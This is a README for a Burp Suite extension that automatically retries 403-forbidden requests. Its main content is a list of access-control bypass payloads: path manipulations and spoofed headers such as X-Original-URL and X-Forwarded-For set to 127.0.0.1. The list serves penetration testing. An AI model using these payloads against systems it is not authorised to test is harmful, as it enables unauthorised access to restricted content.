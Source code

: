 # 403Bypasser
An burpsuite extension to bypass 403 restricted directory. By using PassiveScan (default enabled), each 403 request will be **automatically** scanned by this extension, so just add to burpsuite and enjoy.

Payloads: 
$1: HOSTNAME
$2: PATH
```
$1/$2
$1/%2e/$2
$1/$2/.
$1//$2//
$1/./$2/./
$1/$2 -H "X-Original-URL: /$2" 
$1/$2 -H "X-Custom-IP-Authorization: 127.0.0.1" 
$1/$2 -H "X-Rewrite-URL: /$2"
$1/$2 -H "Referer: /$2"
$1/$2 -H "X-Originating-IP: 127.0.0.1"
$1/$2 -H "X-Forwarded-For: 127.0.0.1"
$1/$2 -H "X-Remote-IP: 127.0.0.1"
$1/$2 -H "X-Client-IP: 127.0.0.1"
$1/$2 -H "X-Host: 127.0.0.1"
$1/$2 -H "X-Forwared-Host: 127.0.0.1"
$1/$2%20/
$1/%20$2%20/
$1/$2?
$1/$2???
$1/$2//
$1/$2/
$1/$2?/.randomstring
$1/$2..;/
```

__Thanks [@lohubi](https://github.com/lobuhi) for contributing many payloads.__

## Installation

`BurpSuite -> Extender -> Extensions -> Add -> Extension Type: Python -> Select file: 403bypasser.py -> Next till Finish`

## Screenshot
<img src="ScreenShot.png" width="450"/>

## References:
* [https://twitter.com/iam_j0ker/status/1324354024657711106?s=20](https://twitter.com/iam_j0ker/status/1324354024657711106?s=20)
* [https://twitter.com/jae_hak99/status/1297556269960540161?s=20](https://twitter.com/jae_hak99/status/1297556269960540161?s=20)
* [https://twitter.com/SalahHasoneh1/status/1296572143141031945](https://twitter.com/SalahHasoneh1/status/1296572143141031945)
* [https://twitter.com/lobuhisec/status/1329705441883017218](https://twitter.com/lobuhisec/status/1329705441883017218)
